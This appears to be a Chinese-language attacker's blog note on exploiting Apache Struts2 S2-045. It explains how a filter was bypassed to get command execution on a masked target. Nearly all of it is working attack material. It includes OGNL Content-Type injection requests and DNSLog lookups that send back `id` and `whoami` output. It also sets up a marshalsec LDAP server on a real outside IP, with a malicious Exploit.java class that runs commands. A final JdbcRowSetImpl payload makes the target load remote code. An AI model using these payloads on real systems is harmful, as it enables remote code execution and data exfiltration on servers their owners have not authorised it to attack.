



遇到一个s2-045，扫描器探测poc有回显。用网上的exp打过去却执行不了命令，通过翻阅一些文章发现可能修复方式为黑名单禁止命令执行函数，可通过ldap注入的方式执行命令。特此记录一下。

## 1.poc探测回显

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('check',233*233)}.multipart/form-data
Accept-Encoding: gzip, deflate
Connection: close


```



## 2.exp执行失败

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Accept-Encoding: gzip, deflate
Connection: close


```

## 3.进行绕过

根据查看的一篇文章：https://www.sec-in.com/article/550

尝试绕过。


java反射尝试：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#p=Class.forName(new java.lang.String(new byte[]{106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101}))))}.multipart/form-data;
Accept-Encoding: gzip, deflate
Connection: close


```



出网判断：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type:%{(#_='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.net.InetAddress@getByName("`id`.qcjfgq.dnslog.cn"))}.multipart/form-data;
Accept-Encoding: gzip, deflate
Connection: close


```




## 4.ldap 命令执行

部署ldap服务，命令执行成功。

服务端：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://121.5.40.91:9999/#Exploit" 9998
```

恶意代码：

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "`whoami`.dfkfby.dnslog.cn"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译+起web服务：

```shell
javac Exploit.java
python3 -m http.server 9999
```

发送数据包：

```shell
GET /license!getExpireDateOfDays.action HTTP/1.1
Host: x.x.x.x:89
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Type:%{(#_='multipart/form-data').(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#a=new com.sun.rowset.JdbcRowSetImpl()).(#a.setDataSourceName("ldap://121.5.40.91:9998/Exploit")).(#a.setAutoCommit(true))}.multipart/form-data
Accept-Encoding: gzip, deflate
Connection: close


```


